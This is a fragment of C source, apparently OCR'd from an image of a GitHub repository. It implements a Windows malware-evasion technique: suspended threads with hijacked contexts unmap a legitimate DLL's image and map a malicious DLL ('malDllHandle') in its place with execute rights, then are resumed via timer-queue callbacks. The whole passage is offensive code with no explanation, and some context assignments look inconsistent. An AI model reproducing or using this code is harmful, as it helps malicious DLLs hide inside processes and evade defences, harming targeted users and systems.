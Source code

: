 ```c
    if (ThreadArray[2] == NULL) {
        
        return -1;
    }
    ThreadArray[3] = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)MapViewOfFileEx, NULL, CREATE_SUSPENDED, NULL);
    if (ThreadArray[3] == NULL) {
       
        return -1;
    }

    GetThreadContext(ThreadArray[0], context);//unmap
    GetThreadContext(ThreadArray[1], contextB);//mapex
    GetThreadContext(ThreadArray[2], contextC);//unmap
    GetThreadContext(ThreadArray[3], contextD);//mapex

    *(ULONG_PTR*)((*context).Rsp) = (DWORD64)ExitThread;
    (*context).Rip = (DWORD64)UnmapViewOfFile;
    (*context).Rcx = (DWORD64)(ImageBaseDLL);

    *(ULONG_PTR*)((*contextB).Rsp) = (DWORD64)ExitThread;
    (*contextB).Rip = (DWORD64)MapViewOfFileEx;
    (*contextB).Rcx = (DWORD64)sacDllHandle;
    (*contextB).Rdx = FILE_MAP_ALL_ACCESS;
    (*contextB).R8 = (DWORD64)0x00;
    (*contextB).R9 = (DWORD64)0x00;
    *(ULONG_PTR*)((*contextD).Rsp + 40) = 0x00; //the offset must be either hex 28 or int 40
    *(ULONG_PTR*)((*contextD).Rsp + 48) = (ULONG_PTR)ImageBaseDLL;

    *(ULONG_PTR*)((*contextC).Rsp) = (DWORD64)ExitThread;
    (*contextC).Rip = (DWORD64)UnmapViewOfFile;
    (*contextC).Rcx = (DWORD64)(ImageBaseDLL);

    *(ULONG_PTR*)((*contextD).Rsp) = (DWORD64)ExitThread;
    (*contextD).Rip = (DWORD64)MapViewOfFileEx;
    (*contextD).Rcx = (DWORD64)malDllHandle;
    (*contextD).Rdx = FILE_MAP_ALL_ACCESS | FILE_MAP_EXECUTE;
    (*contextD).R8 = (DWORD64)0x00;
    (*contextD).R9 = (DWORD64)0x00;
    *(ULONG_PTR*)((*contextD).Rsp + 40) = 0x00; //the offset must be either hex 28 or int 40
    *(ULONG_PTR*)((*contextD).Rsp + 48) = (ULONG_PTR)ImageBaseDLL;

    SetThreadContext(ThreadArray[0], context);
    SetThreadContext(ThreadArray[1], contextB);
    SetThreadContext(ThreadArray[2], contextC);
    SetThreadContext(ThreadArray[3], contextD);

    HANDLE  hTimerQueue = NULL;
    HANDLE  hNewTimer = NULL;
    PVOID ResumeThreadAddress = NULL;

    hTimerQueue = CreateTimerQueue();

    ResumeThreadAddress = GetProcAddress(GetModuleHandleA("kernel32.dll"), "ResumeThread");

    if (ResumeThreadAddress != NULL) {
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)ResumeThreadAddress, ThreadArray[0], 100, 0, WT_EXECUTEINTIMERTHREAD);//unamp
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)ResumeThreadAddress, ThreadArray[1], 200, 0, WT_EXECUTEINTIMERTHREAD);//mapsac
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)ResumeThreadAddress, ThreadArray[2], 7000, 0, WT_EXECUTEINTIMERTHREAD);//unmap
```